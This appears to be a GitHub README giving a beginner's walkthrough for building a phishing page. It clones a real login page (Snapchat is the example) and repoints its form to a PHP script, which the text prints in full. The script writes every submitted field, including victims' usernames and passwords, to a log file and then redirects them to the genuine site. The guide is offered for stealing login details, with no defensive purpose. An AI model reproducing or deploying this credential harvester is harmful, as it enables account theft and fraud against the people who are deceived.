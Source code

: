 # Creating-a-phishing-page---very simple-steps-for-dummies-PhP-

Phishing is the most common attack which is used to hack any login details.
For which we need to have phishing pages to upload then in hosting sites.
Here i will show you an example of creating Phishing page (fake loGin page) of Facebook.The method is same for any other website
What we are going to do now.Normally in phishing we will just create a login page which looks same like the real website. For this we need not to code the whole script of the desired website. 

StepS to Reproduce:

1. First go to the desired website Login page for which you want to create Phishing page
lets take www.snapchat.com

2. Right click on the website and choose “page source” . Now you can see the whole script of the website.

3. Copy the whole script and paste it into a text file. Press Control+F and type ” action “.
Here in the case of “www.snapchat.com “. The script line that has “action” looks something like this.
action=”https://www.snapchat.com/login.php?login_attempt=1“. Now replace everything inside the quotes with 
” login.php”. 

So it will look like action=”login.php“ 

4. Save the file as index.html.

5. Now open a new text file and paste the following code

header (‘Location: http://snapchat.com ‘);

$handle = fopen(“logs_86354.txt”, “a”);

foreach($_POST as $variable => $value) {

fwrite($handle, $variable);

fwrite($handle, “=”);

fwrite($handle, $value);

fwrite($handle, “\r\n”);

}

fwrite($handle, “===============\r\n”);

fclose($handle);

exit;

?>

Save it as “login.php”
